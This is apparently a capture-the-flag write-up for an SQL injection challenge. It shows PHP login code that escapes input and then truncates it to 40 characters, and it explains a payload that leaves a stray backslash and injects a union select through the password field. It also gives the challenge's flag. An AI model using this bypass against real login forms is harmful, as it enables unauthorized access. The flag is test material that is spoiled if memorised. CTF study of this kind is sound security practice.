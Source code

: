 # [SQL Injection Level 6](http://s1063.vdi.mipt.ru:8000/challenges#SQL%20Injection%20Level%206)
### [Login form](http://chall1.ctf.pwne.xyz:5555/level6/)

# Solution 
Code:
```php
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = mysqli_real_escape_string($conn, $_POST['password']);

$username = substr($username, 0, 40);
$password = substr($password, 0, 40);

$query = "SELECT * FROM users WHERE username='{$username}' AND password='{$password}'";

$result = mysqli_query($conn, $query);

if (mysqli_num_rows($result) == 1)
{
	echo $success_page;
}
```
The `mysqli_real_escape_string()` function escapes special characters in a string for use in an SQL statement. Basically what it does: 
finds symbols like `'` or `\n` and adds backslash before it: `'` -> `\'`. 

Then we trim exactly 40 symbols. 

So for example if login equals `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'` (39 `a`'s and `'`), after 
`mysqli_real_escape_string()` we get `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\'` and 
after `substr` we get `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\`, so the whole query is:
`SELECT * FROM users WHERE username='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\' AND password='{$password}'`.

Therefore if in password we input something like ` union select 0, 0, 0; #` the query become:
`SELECT * FROM users WHERE username='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\' AND password=' union select 0, 0, 0; #'`, where 

**Answer**: `flag{1061879a8cfa6cd8a970220f4ca83e26}`